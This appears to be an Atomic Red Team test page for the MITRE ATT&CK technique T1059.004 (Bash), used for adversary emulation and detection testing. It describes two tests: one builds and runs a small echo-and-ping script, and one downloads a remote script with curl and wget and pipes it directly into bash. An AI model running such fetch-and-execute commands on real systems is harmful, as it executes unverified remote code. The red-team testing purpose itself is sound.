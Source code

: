 # T1059.004 - Bash
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1059.004)
<blockquote>Adversaries may abuse Bash commands and scripts for execution. Bash, the primary macOS (through Mojave) and Linux shell, can control every aspect of a system, with certain commands requiring elevated privileges. 

Bash scripts (.sh) provide the shell with a list of sequential commands to run, as well as normal scripting operations such as conditionals and loops. Common uses of Bash scripts include long or repetitive tasks, or the need to run the same set of commands on multiple systems.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create and Execute Bash Shell Script](#atomic-test-1---create-and-execute-bash-shell-script)

- [Atomic Test #2 - Command-Line Interface](#atomic-test-2---command-line-interface)


<br/>

## Atomic Test #1 - Create and Execute Bash Shell Script
Creates and executes a simple bash script.

**Supported Platforms:** macOS, Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| script_path | Script path | path | /tmp/art.sh|


#### Attack Commands: Run with `sh`! 


```sh
sh -c "echo 'echo Hello from the Atomic Red Team' > #{script_path}"
sh -c "echo 'ping -c 4 8.8.8.8' >> #{script_path}"
chmod +x #{script_path}
sh #{script_path}
```

#### Cleanup Commands:
```sh
rm #{script_path}
```





<br/>
<br/>

## Atomic Test #2 - Command-Line Interface
Using Curl to download and pipe a payload to Bash. NOTE: Curl-ing to Bash is generally a bad idea if you don't control the server.

Upon successful execution, sh will download via curl and wget the specified payload (echo-art-fish.sh) and set a marker file in `/tmp/art-fish.txt`.

**Supported Platforms:** macOS, Linux





#### Attack Commands: Run with `sh`! 


```sh
curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/echo-art-fish.sh | bash
wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/echo-art-fish.sh | bash
```

#### Cleanup Commands:
```sh
rm /tmp/art-fish.txt
```





<br/>
